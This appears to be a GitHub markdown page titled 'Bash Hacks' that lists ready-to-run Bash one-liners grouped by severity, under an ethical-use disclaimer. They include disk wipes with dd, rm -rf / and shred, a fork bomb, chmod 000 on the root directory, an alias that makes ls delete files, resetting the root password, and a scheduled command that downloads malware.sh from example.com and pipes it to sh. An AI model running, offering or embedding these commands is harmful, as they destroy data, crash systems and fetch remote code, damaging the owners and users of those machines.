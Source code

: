 # Bash Hacks

``` bash
DANGER, DONT-EVER-DO-IT !!!

Document version v1.0.1
```

![IMG](./../img/hazard-symbol.png)


## **Disclaimer**
*This document provides some examples on how Bash-scripting can be utilized in hacking contexts. The information is meant to enhance understanding and applications of Bash scripting and Linux/Unix System commands.*

### **Important**

**Ethical Use**: The reader is strongly advised to use this knowledge responsibly and ethically.

**Legal Compliance**: Never execute these commands in production environments.

**No Liability**: Any damage caused by the misuse or misunderstanding of the information provided is your own responsibility.

___


#### **1. Non-Destructive or Low-Impact Commands**
Commands that have minimal impact on the system.

- `cat /dev/urandom | hexdump -C | grep "ca fe"` - Searches for the hex pattern "ca fe" in random data.
- `while true; do head -n 100 /dev/urandom; sleep .1; done` - Continuously prints random data to the terminal.
- `cat /dev/sda | gzip -9 > sda.img.gz` - Creates a compressed image of the entire disk `/dev/sda`.
- `tar cf - / | ssh user@host "tar xf - -C /"` - Archives the entire filesystem and extracts it on a remote host.

---

#### **2. Annoyance or Minor Disruption**
Commands that disrupt or cause minor issues but are not destructive.

- `echo "You have been hacked!" | wall` - Sends a message to all users logged into the system.
- `echo "You have been hacked!" > /etc/motd` - Overwrites the message of the day (MOTD) with a custom message.
- `echo "You have been hacked!" | mail -s "Hacked" user@example.com` - Sends an email with the subject "Hacked" to the specified user.
- `while true; do echo "You have been hacked!"; done` - Continuously prints a message to the terminal.
- `echo "You have been hacked!" > /dev/tty1` - Sends a message to the first virtual console.
- `echo "You have been hacked!" > /dev/ttyS0` - Sends a message to the first serial port.
- `echo "You have been hacked!" > /dev/ttyUSB0` - Sends a message to the first USB serial device.
- `echo "You have been hacked!" > /dev/ttyAMA0` - Sends a message to the first AMBA serial device.
- `echo "You have been hacked!" > /dev/ttyO0` - Sends a message to the first OMAP serial device.
- `cat /dev/urandom | tee /dev/pts/* > /dev/null` - Sends random data to all open terminal sessions.

---

#### **3. File or System Manipulation**
Commands that modify files or system behavior but are not immediately destructive.

- `echo "echo 'You have been hacked!'" >> ~/.bashrc` - Appends a message to the user's `.bashrc` file, displaying it on every terminal login.
- `echo "alias ls='rm -rf'" >> ~/.bashrc` - Creates a malicious alias for `ls` that deletes files instead of listing them.
- `find / -name "*.txt" -exec rm -f {} \;` - Deletes all `.txt` files on the system.
- `chmod -R 000 /` - Recursively removes all permissions from all files and directories starting from root.
- `find / -type f -exec chmod 000 {} \;` - Recursively removes all permissions from all files on the system.
- `echo "root:password" | chpasswd` - Changes the root password to "password" (requires root privileges).

---

#### **4. Destructive Commands**
Commands that can cause significant damage to the system or data.

- `dd if=/dev/zero of=/dev/sda` - Overwrites the entire disk `/dev/sda` with zeros (destructive).
- `mkfs.ext4 /dev/sda1` - Formats the partition `/dev/sda1` with the ext4 filesystem (destructive).
- `dd if=/dev/sda of=/dev/sdb` - Clones the entire contents of `/dev/sda` to `/dev/sdb`.
- `while true; do dd if=/dev/zero of=/dev/sda bs=1M; done` - Continuously overwrites `/dev/sda` with zeros.
- `find / -type f -exec shred -u {} \;` - Securely deletes all files on the system by overwriting them with random data.
- `rm -rf /` - Recursively deletes all files starting from the root directory (extremely destructive).

---

#### **5. System Crashes or Denial of Service**
Commands that can crash the system or cause it to become unresponsive.

- `:(){ :|:& };:` - Fork bomb: creates a function that calls itself recursively, spawning processes until the system crashes.
- `while true; do killall -9 bash; done` - Continuously kills all `bash` processes on the system.
- `cat /dev/urandom > /dev/fb0` - Fills the framebuffer with random data, potentially crashing the graphical display.
- `cat /dev/zero > /dev/mem` - Attempts to overwrite system memory with zeros, likely crashing the system.
- `echo 1 > /proc/sys/kernel/sysrq; echo b > /proc/sysrq-trigger` - Triggers an immediate system reboot using the Magic SysRq key.

---
<div style="page-break-before: always;"></div>

#### **6. Remote Exploitation or Malware**
Commands that involve remote exploitation or downloading/executing malicious scripts.

- `echo "wget http://example.com/malware.sh -O- | sh" | at now + 1 minute` - Schedules a command to download and execute a script in one minute.

``` bash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
L       III  N   N  U   U  X   X      H   H   AAAAA  CCCC  K   K  SSSS
L        I   NN  N  U   U   X X       H   H  A     A C      K  K  S
L        I   N N N  U   U    X        HHHHH  AAAAAAA C      KKK   SSS
L        I   N  NN  U   U   X X       H   H  A     A C      K  K     S
LLLLL   III  N   N   UUU   X   X      H   H  A     A  CCCC  K   K  SSSS
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
DONT-EVER-DO-IT !!!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
```
